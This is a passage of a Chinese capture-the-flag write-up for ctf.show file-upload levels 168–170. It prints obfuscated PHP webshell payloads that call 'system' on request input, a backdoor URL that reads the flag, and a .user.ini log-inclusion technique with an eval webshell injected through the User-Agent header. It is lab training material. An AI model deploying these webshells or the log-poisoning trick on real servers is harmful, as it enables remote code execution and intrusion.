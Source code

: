```
 1payload1:
 2<?php $a='syste';$b='m';$c=$a.$b;$c('tac ../flagaa.php');?> 3 4payload2: 5<?php 6$a = "s#y#s#t#e#m"; 7$b = explode("#",$a); 8$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5]; 9$c($_REQUEST[1]);10?>1112payload3:13<?php14$a=substr('1s',1).'ystem';15$a($_REQUEST[1]);16?>1718payload4:19<?php20$a=strrev('metsys');21$a($_REQUEST[1]);22?>23

```  
  
  
上传后门文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZmS1Cibnd6XfFJNloa0aWFW7sKOMvLbUGe7uFic7kWTOC4NGCZqagvel2AxKbLnqEZuwr7jrENt7JA/640?wx_fmt=png&from=appmsg "")  
  
文件上传成功，链接后门读取flag  
  
```
1http://3af2a636-8362-4c0b-9147-de822c7ddc9d.challenge.ctf.show/upload/test.php?1=cat ../flagaa.php

```  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZmS1Cibnd6XfFJNloa0aWFWHeFIbrx2LhDl8qXUKicByqiaJ2CbjfHVSttibosf9EE8keiaMDnr4qErcg/640?wx_fmt=png&from=appmsg "")  
  
****  
**169关：日志包含**  
  
  
这一关上传了.user.ini之后，访问upload目录显示403，所以我们需要上传一个index.php，构造.user.ini利用条件：上传index.php 内容随意。上传.user.ini包含日志：auto_prepend_file=/var/log/nginx/access.log  
  
访问地址带后门UA头写入日志：<?=eval($_POST[x]);?>  
  
这里其实和160的文件包含是一样的。只是我们需要上传index.php配合.user.ini  
  
爆出403的错误就以为着当前目录的目录文件缺失。  
  
  
**170关：和169一摸一样**  
  
  
完结撒花！！！  
  
  
END  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rCukMxCXicnZ0MH2WNicYnwJAibtGhLB3tnSbN7L04doUSkPIqZgEibfib7Vs5hXiaicFeLicUlQxy9Tic49CHbcPlSIRzA/640?wx_fmt=png "")  
  
  
版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。  
  
原文链接：https://blog.csdn.net/qq_61553520/article/details/130218788  
  
版权声明：著作权归作者所有。如有侵权请联系删除  
  
  
网安训练营  
  
网络安全基础班、实战班线上全面开启，学网络安全技术、升职加薪……有兴趣的可以加入网安大家庭，一起学习、一起成长，考证书求职加分、升级加薪，有兴趣的可以咨询客服小姐姐哦！  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rCukMxCXicnYQFVIuFicd4kaXTjVEypCqpIElc61joHndXXvXJrSKDvQ6cwiauBSMqaSDtagY12q72whiak6aVvmyg/640?wx_fmt=jpeg "")  
  